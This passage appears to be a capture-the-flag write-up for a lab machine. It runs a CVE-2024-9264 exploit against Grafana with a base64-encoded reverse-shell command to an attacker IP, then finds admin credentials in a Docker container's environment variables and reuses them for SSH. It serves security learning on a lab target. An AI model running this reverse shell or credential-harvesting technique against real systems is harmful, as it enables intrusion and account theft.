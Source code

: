 Perfect, it works! Let's try to send a rce

```
$ python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTk0LzkwMDEgMD4mMQ== | base64 -d | bash'
http://grafana.planning.htb/

[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTk0LzkwMDEgMD4mMQ== | base64 -d | bash
```

Perfect, we're in!

## User

Trying to analyze the machine with linPEAS I didn't find anything interesting, so I didn't understand since there was no flag... So looking at the root of the machine I noticed a ".dockerenv" file and I understood that we were inside a docker, not inside the machine (Yes... I hadn't noticed it at first impact on linPEAS)

So now we had to find a way to escape from docker, I tried to see the environment variables and tried some interesting things:

```
$ env

GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=-al
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/usr/share/grafana
```

Well yes... we have a user and a password:
- __enzo - RioTecRANDEntANT!__

I tried to log in via ssh with user enzo, and I received excellent feedback, since I'm not connected!
